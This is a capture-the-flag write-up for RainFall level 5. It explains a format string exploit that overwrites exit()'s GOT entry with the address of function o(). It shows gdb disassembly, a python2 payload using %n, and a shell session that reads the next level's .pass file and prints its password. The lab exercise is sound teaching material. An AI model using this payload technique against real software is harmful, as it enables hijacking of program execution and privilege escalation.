 
# Level 5


Same as previous levels, we have format string vulnerability, but this time instead of changing the value of a variable we need redirect the code execution to the function o().

We can try to overwrite the return address of the main function with the address of the function o() but it won't work because at the end of the function n() the program will call exit() which means we never reach the return address of the main function.

To solve this we can overwrite the address of the exit() function with the address of the function o() in the Global Offset Table (GOT).

we first need the address of o() and exit() functions.

```bash
level5@RainFall:~$ gdb -q level5 
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) x o
0x80484a4 <o>:  0x83e58955
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
(gdb) 
```

so the address of o() is 0x80484a4 and the address of exit() in the GOT is 0x8049838

we can use the following input to overwrite the address of exit() with the address of o(), knowing that the address of the buffer is the 4th argument on the stack we can use the %4$n format specifier to write the value of the buffer to the address of exit().

```bash
level5@RainFall:~$ python2 -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit2
level5@RainFall:~$ cat /tmp/exploit2 - | ./level5
                                      512
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
